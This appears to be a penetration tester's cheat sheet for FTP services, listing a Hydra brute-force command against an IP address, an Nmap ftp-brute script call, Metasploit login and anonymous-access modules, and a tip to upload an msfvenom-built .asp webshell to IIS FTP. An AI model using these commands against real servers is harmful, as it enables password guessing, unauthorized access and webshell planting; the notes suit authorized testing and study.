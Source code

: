 # Hydra

- hydra -L <userlist> -P <passlist> 192.235.127.3 -t 4 ftp
	
# Nmap

- nmap --script ftp-brute --script-args userdb=/root/users -p 21 <ip>

## Nmap scrips

- ftp-anon : check if anon login allowed
- ftp-brute --script-args userdb=/root/users : 

# Connect to ftp server
	- ftp <ip>

# Metasploit Modules

- auxiliary/scanner/ftp/ftp_login : brute force ftp
- auxiliary/scanner/ftp/anonymous : anonymous login test
- If targeting Microsoft IIS FTP, generate and upload .asp webshell using msfvenom.

# References

1. [proftpd](http://www.proftpd.org/)
2. [THC Hydra](https://tools.kali.org/password-attacks/hydra)
3. [ftp](https://linux.die.net/man/1/ftp)
4. [Nmap Script: ftp-brute](https://nmap.org/nsedoc/scripts/ftp-brute.html)
5. [vsftpd](https://security.appspot.com/vsftpd.html)